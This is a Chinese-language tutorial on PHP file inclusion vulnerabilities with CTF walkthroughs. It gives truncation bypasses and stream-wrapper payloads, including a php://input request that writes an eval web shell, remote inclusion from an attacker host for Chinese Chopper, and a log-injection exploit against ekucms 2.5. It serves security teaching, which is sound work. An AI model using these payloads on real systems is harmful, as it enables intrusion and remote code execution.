






# 文件包含漏洞



## 文件包含漏洞

原理，检测，类型，利用，修复等。

```php
$filename = $_GET['x'];
// http://127.0.0.1:80/index.php?x=index.txt
// index.txt中有如下代码<?php phpinfo();?>
// 这样就会忽略文件类型,将index.txt中的内容当作php代码来执行
include($filename);

// 有限制的代码
$filename = $_GET['x'];
include($filename.".html"); // 在文件名的后缀中加入.html的后缀,变成index.txt.html
// 一般这样文件包含的话,会报错,会爆出是什么文件后缀的格式。
```

### 防御

```php
<?php
    $filename = $_GET['filename'];
	include('index.txt'); // 直接写死,是最好的防御
?>
```

## 文件包含各个脚本代码

ASP，PHP，JSP，ASPX等。

```jsp
<!--#include file = "index.asp" -->
<!--#include file = "index.aspx" -->
<c:import url="http://127.0.0.1/index.jsp">
<jsp:include page="head.jsp"/>
<%@ include file="head.jsp"%>
<?php include("index.php")?>
```

### 本地包含

#### 无限制

```url
http://127.0.0.1:8080/include.php?filename=1.txt
http://127.0.0.1:8080/include.php?filename=../../../www.txt
```

#### 有限制

##### 绕过

%00截断

1. 条件：`magic_quotes_gpc = off`

2. php版本<5.3.4

```url
filename=../../../www.txt%00
```

##### `./`绕过

长度截断：windows点号需要长于256；Linux长于4096

```url
192.168.132.139/mypage/mywebpage/includefile.php?y=index.txt./././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

### 远程包含

打开allow_url_fopen 和 allow_url_include 选项。

#### 无限制

```url
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt #菜刀可以连接
```

#### 有限制

```url
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%00
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%20
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt%23
http://127.0.0.1:8080/include.php?filename=http://ip/index.txt?
```

## 各种协议流玩法

1. ```php
   http://127.0.0.1:8080/include.php?filename=php://filter/convert.base64-encode/resource=index.txt
   ```

2. ```php
   http://127.0.0.1:8080/include.php?filename=php://input
   POST:<?php system('ver');?>
   POST:<?php fputs(fopen('shell111.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
   ```

3. ```php
   http://127.0.0.1:8080/include.php?filename=file:///D:/phpstudy/PHPTutorial/WWW/1.txt
   ```

4. ```php
   http://127.0.0.1:8080/include.php?filename=data://text/plain,<?php phpinfo();?>
   ```

## 文件下载

下载文件的时候，需要知道对方相应重要的信息文件，如何获取呢？

1. 扫描工具爬行或者扫描地址
2. 重要的数据库配置文件
3. 下载好的代码文件中去分析路径和包含文件获取
4. 一般就是路径扫描工具去判断。

## 文件读取

## 实战

### 南邮CTF平台

解析：用的是php的伪协议。

```url
http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

得到是一个`base64`的编码，对`base64`解码可得出`flag`。`flag`就在`html`中。

### ekucms 2.5

漏洞点：

```url
192.168.132.139/mypage/ekucms/?s=my/show/id/{~eval($_POST[x])}
```

利用：

```php
http://192.168.132.139/mypage/ekucms/?s=my/show/id/\..\temp\logs\23_03_14.log
不用写<?php?>,因为是文件包含所以说直接可以运行php代码,include 把这个文件当作脚本执行
```

### BUUCTF

#### [RoarCTF 2019] Easy Java

```
https://buuoj.cn/challenges#[RoarCTF%202019]Easy%20Java
```



这个题目可能会让人以为是SQL注入的问题，但是如果你仔细发现这个help，就会知道，这是一个文件下载读取的问题。



通过读取相应的web.xml文件可以知道Flag就在FlagController中。



通过web.xml文件得到相应的Controller的Class文件。



得到相应的Class文件可以得到对应base64编码后的flag，只需要对base64进行解密，就可以拿到flag。


